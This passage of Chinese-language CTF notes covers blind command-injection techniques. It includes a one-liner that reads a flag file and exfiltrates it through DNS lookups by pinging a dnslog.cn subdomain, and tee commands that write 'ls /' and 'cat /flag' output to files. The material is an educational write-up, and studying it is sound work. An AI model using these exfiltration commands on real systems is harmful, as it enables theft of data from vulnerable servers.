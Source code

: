 ## ![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669263404214-371bac91-288e-478c-ba53-59d34108eda5.png#averageHue=%23fefdfd&clientId=u29acd7f1-1e00-4&from=paste&height=165&id=h3ZIg&originHeight=364&originWidth=2098&originalType=binary&ratio=1&rotation=0&showTitle=false&size=49306&status=done&style=none&taskId=ud54831cb-50c6-4a4e-9e41-e5cf0b3293d&title=&width=953.6363429668526)

利用ping的原理就是DNS请求：
:::info
如果请求的目标不是ip地址而是域名，那么域名最终还要转化成ip地址，就肯定要做一次域名解析请求。那么假设我有个可控的二级域名，那么它发出三级域名解析的时候，我这边是能够拿到它的域名解析请求的，这就相当于可以配合DNS请求进行命令执行的判断，这一般就被称为dnslog。（要通过dns请求即可通过ping命令，也能通过curl命令，只要对域名进行访问，让域名服务器进行域名解析就可实现）
:::

[dnslog](http://www.dnslog.cn/)

```shell
F=`$F`; ping `nl flag.php | awk 'NR==15' | tr -d -c '[:lower:]'/'[:digit:]'/'-'`.oi9r87.dnslog.cn -c 1
```

- 注意最开始的空格，是为了在substr之后不报错，经过测试发现对于phpinfo()这样的函数，不受其它字符的干扰，但是`ls`;不行，只能严格按照这个格式执行
- 带出数据只能一排一排的带出
- 将nl的内容给awk，由于只能一排一排带，所以指定行号为15
- 将ask输出给tr，删除flag中除了小写字母、数字、- 的内容
- 用 . 命令拼接dnslog的域名
- -c 设置 ping 的次数，默认无限次，可选

### tee命令

[https://www.runoob.com/linux/linux-comm-tee.html](https://www.runoob.com/linux/linux-comm-tee.html)

:::info
tee指令会从标准输入设备读取数据，将其内容输出到标准输出设备，同时保存成文件
:::

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669274109649-2b88f7ff-faab-4037-81be-aab161c98455.png#averageHue=%23fefefe&clientId=uea03734a-8b28-4&from=paste&height=226&id=u75334d84&originHeight=498&originWidth=2232&originalType=binary&ratio=1&rotation=0&showTitle=false&size=53477&status=done&style=none&taskId=uebb2a828-6820-43b3-9805-a21c964a05c&title=&width=1014.5454325557745)

- 由于是无回显命令exec，因此可以用tee命令

```shell
ls / | tee 1 //读取输入到1文件中
cat /flag | tee 2 
```

### sed命令

[https://www.runoob.com/linux/linux-comm-sed.html](https://www.runoob.com/linux/linux-comm-sed.html)<br />sed 可依照脚本的指令来处理、编辑文本文件。<br />Sed 主要用来自动编辑一个或多个文件、简化对文件的反复操作、编写转换程序等

```shell
sed -i 's/book/books/g' file
```
